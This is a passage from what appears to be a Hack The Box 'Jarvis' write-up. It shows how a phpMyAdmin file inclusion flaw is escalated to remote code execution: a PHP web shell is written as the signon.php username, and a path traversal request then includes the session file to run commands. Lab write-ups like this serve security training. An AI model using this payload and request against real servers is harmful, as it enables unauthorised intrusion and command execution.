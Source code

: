 We can escalate this to achieve **Remote Code Execution**. Using the */phpmyadmin/examples/signon.php* form, we can write PHP
code in a log file that we can later include:

<p align="center">
    <img width="700" height="200" src="resources/images/phpmyadmin-signon.png">
</p>

By writing ```<pre><?php echo shell_exec($_GET["cmd"]); ?>``` as the username we will be inserting PHP code that will
execute the command specified in the GET *cmd* parameter. We just need to grab the **SignonSession** cookie and make
a request like ```http://jarvis.htb/phpmyadmin/index.php?target=sql.php%3f/../../../../var/lib/php/sessions/sess_<SignonSessionCookie>&cmd=<command>```
and the command specified in *cmd* will be executed in the server and the output of that command reflected on the page.

<p align="center">
    <img width="700" height="400" src="resources/images/phpmyadmin-rce.png">
</p>
